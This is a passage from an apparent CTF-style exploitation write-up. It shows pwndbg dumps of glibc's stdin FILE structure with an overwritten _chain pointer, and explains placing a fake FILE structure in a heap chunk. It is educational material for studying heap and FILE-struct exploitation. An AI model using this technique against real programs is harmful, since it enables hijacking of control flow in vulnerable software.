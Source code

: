 So we need to fire these johns, and put one of them in `_IO_2_1_stdin->_chain`.

```
pwndbg> p *(FILE *)&_IO_2_1_stdin_
$1 = {
  _flags = -72540024,
  _IO_read_ptr = 0x5555555872b0 'a' <repeats 200 times>...,
  _IO_read_end = 0x5555555872b0 'a' <repeats 200 times>...,
  _IO_read_base = 0x5555555872b0 'a' <repeats 200 times>...,
  _IO_write_base = 0x5555555872b0 'a' <repeats 200 times>...,
  _IO_write_ptr = 0x5555555872b0 'a' <repeats 200 times>...,
  _IO_write_end = 0x5555555872b0 'a' <repeats 200 times>...,
  _IO_buf_base = 0x5555555872b0 'a' <repeats 200 times>...,
  _IO_buf_end = 0x5555555882b0 "",
  _IO_save_base = 0x0,
  _IO_backup_base = 0x0,
  _IO_save_end = 0x0,
  _markers = 0x0,
  _chain = 0x555555589250, <-- overwrote _chain!
  _fileno = 0,
  _flags2 = 0,
  _old_offset = -1,
  _cur_column = 0,
  _vtable_offset = 0 '\000',
  _shortbuf = "",
  _lock = 0x15555514e720,
  _offset = -1,
  _codecvt = 0x0,
  _wide_data = 0x15555514c9c0,
  _freeres_list = 0x0,
  _freeres_buf = 0x0,
  _prevchain = 0x0,
  _mode = -1,
  _unused2 = '\000' <repeats 19 times>
}
```

Then, we need to consider which one of them should be our lucky worker that
becomes the fake file. We can go with john23, because we do need a little space
above john23 provided by john22 so that the fd and bk pointers, added when our
payload chunk is freed, will not interfere with our fake file.

```
pwndbg> x/32gx 0x555555589200
0x555555589200: 0x0000000000000000      0x0000000000000201 <-- start of unsorted chunk
0x555555589210: 0x000015555514cb20      0x0000555555588a80
0x555555589220: 0x000032326e686f00      0x0000000000000000
0x555555589230: 0x0000000000000000      0x0000000000000000
0x555555589240: 0x0000000000000000      0x00000000000001c1
0x555555589250: 0x000055555558b390      0x000015555514cb20 <-- _chain points here
0x555555589260: 0x000033326e686f00      0x0000000000000000
0x555555589270: 0x0000000000000000      0x0000000000000000
0x555555589280: 0x0000000000000000      0x0000000000000181
0x555555589290: 0x000055555558b390      0x000015555514cb20
0x5555555892a0: 0x000034326e686f00      0x0000000000000000
0x5555555892b0: 0x0000000000000000      0x0000000000000000
0x5555555892c0: 0x0000000000000000      0x0000000000000141
0x5555555892d0: 0x000055555558b390      0x000015555514cb20
0x5555555892e0: 0x000035326e686f00      0x0000000000000000
0x5555555892f0: 0x0000000000000000      0x0000000000000000
```
